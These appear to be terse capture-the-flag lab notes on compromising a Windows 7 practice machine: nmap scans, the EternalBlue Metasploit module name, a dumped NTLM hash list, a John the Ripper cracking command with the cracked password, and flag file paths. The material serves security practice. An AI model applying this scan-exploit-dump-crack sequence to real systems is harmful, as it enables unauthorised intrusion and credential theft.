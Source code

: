 nmap 10.10.196.52        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 13:52 EDT
Nmap scan report for 10.10.196.52
Host is up (0.44s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 31.74 seconds

this room is for more about parctice

─$ nmap -sC -sV 10.10.196.52                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 13:58 EDT
Stats: 0:02:23 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 14:01 (0:00:10 remaining)
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 14:01 (0:00:14 remaining)
Nmap scan report for 10.10.196.52
Host is up (0.44s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-06-11T17:47:11
|_Not valid after:  2023-12-11T17:47:11
|_ssl-date: 2023-06-12T18:01:51+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-12T18:01:40+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: -1s
| smb2-time: 
|   date: 2023-06-12T18:01:39
|_  start_date: 2023-06-12T17:47:10
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02354c8bbc37 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-12T13:01:39-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required


└─$ nmap -sC -sV --script vuln 10.10.196.52

exploit/windows/smb/ms17_010_eternalblue 

![](20230612142748.png)

hash dump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

john --format=nt --wordlist=<path-to-wordlist> <hash>

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash

alqfna22

      37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt  34            2019-03-17 15:32:48 -0400
c:\flag1.txt                          24            2019-03-17 15:27:21 -0400




![](20230612144106.png)